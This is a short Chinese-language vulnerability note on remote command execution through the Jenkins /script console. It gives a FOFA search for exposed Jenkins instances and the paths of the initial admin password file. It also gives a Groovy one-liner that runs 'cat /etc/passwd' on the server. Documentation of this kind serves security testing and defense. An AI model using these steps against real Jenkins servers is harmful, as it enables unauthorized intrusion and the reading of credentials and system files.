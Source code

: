 ```yaml
---
title: Jenkins script 远程命令执行漏洞
---
```


# Jenkins script 远程命令执行漏洞

## 漏洞描述

Jenkins 登录后访问 /script 页面，其中存在命令执行漏洞，当存在未授权的情况时导致服务器被入侵

## 漏洞影响

<a-checkbox checked>Jenkins</a-checkbox></br>

## 网络测绘

<a-checkbox checked>
<a-button href="https://fofa.info/result?qbase64=YXBwPSJKZW5raW5zIg%3D%3D">app="Jenkins"</a-button>
</a-checkbox>

## 漏洞复现

账号密码存在于：

```bash
Linux: /var/lib/jenkins/secrets/initialAdminPassword
Windows: C:\Users\RabbitMask\.jenkins\secrets\initialAdminPassword
```

登录后台，或在未授权的情况下访问

```bash
http://xxx.xxx.xxx.xxx/script
```

在脚本命命令模块执行系统命令

```bash
println 'cat /etc/passwd'.execute().text
```

![image.png](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1629510961976-6518a8a9-cd7d-46b0-9bc5-67c07a1f9d7f.png)